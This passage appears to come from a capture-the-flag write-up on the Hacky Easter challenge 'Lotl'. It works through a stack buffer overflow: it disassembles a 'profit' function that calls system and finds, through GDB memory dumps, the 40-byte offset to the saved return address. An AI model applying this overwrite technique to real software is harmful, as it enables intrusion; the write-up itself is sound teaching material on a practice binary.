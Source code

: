 When we fed it 64 bytes of data, the program segfaulted. This means that we were able to overwrite the stack frame data and the saved instruction pointer, causing the processor to jump to somewhere it wasn't supposed to, causing the OS to trigger a segfault and abort the program.

Great! Now that we know that we can overwrite `rip`, we just need to figure out exactly how many bytes to feed in.

Let's take a look at the assembly of the `profit` function:

```text
(gdb) disassemble profit
Dump of assembler code for function profit:
   0x000000000040086d <+0>: push   rbp
   0x000000000040086e <+1>: mov    rbp,rsp
   0x0000000000400871 <+4>: lea    rdi,[rip+0x100]        # 0x400978
   0x0000000000400878 <+11>: call   0x400610 <system@plt>
   0x000000000040087d <+16>: nop
   0x000000000040087e <+17>: pop    rbp
   0x000000000040087f <+18>: ret
End of assembler dump.
```

The address of function profit is `0x40086d`, so we need to overwrite `rip` with this value. After some messing around in GDB, we found that feeding in 40 bytes of data overwrote data up till right before the saved `rip` value.

```text
$ python -c 'print(b"A" * 40)' > tmpfile
no output

$ gdb
(gdb) break printf
(gdb) r < tmpfile
(gdb) r < tmpfile
Starting program: ~/Projects/hackyeaster/Lotl/lotl < tmpfile

Breakpoint 1, 0x00007ffff7e30590 in printf () from /usr/lib/libc.so.6
(gdb) c
Continuing.
Welcome! Please give me your name!
>
Breakpoint 1, 0x00007ffff7e30590 in printf () from /usr/lib/libc.so.6
(gdb) x/40x $sp
0x7fffffffe568: 0x00400866  0x00000000  0xffffe698  0x00007fff
0x7fffffffe578: 0x00400880  0x00000001  0x41414141  0x41414141
0x7fffffffe588: 0x41414141  0x41414141  0x41414141  0x41414141
0x7fffffffe598: 0x41414141  0x41414141  0x41414141  0x41414141
0x7fffffffe5a8: 0xf7dffb00  0x00007fff  0xffffe698  0x00007fff
0x7fffffffe5b8: 0xf7fca000  0x00000001  0x00400809  0x00000000
0x7fffffffe5c8: 0xffffe949  0x00007fff  0x00400880  0x00000000
0x7fffffffe5d8: 0xa8a731e1  0x0e111ae8  0x00400670  0x00000000
0x7fffffffe5e8: 0x00000000  0x00000000  0x00000000  0x00000000
0x7fffffffe5f8: 0x00000000  0x00000000  0x63c731e1  0xf1eee517
(gdb) info frame 1
Stack frame at 0x7fffffffe5b0:
 rip = 0x400866 in main; saved rip = 0x7ffff7dffb00
 caller of frame at 0x7fffffffe570
 Arglist at 0x7fffffffe5a0, args:
 Locals at 0x7fffffffe5a0, Previous frame's sp is 0x7fffffffe5b0
 Saved registers:
  rbp at 0x7fffffffe5a0, rip at 0x7fffffffe5a8
```
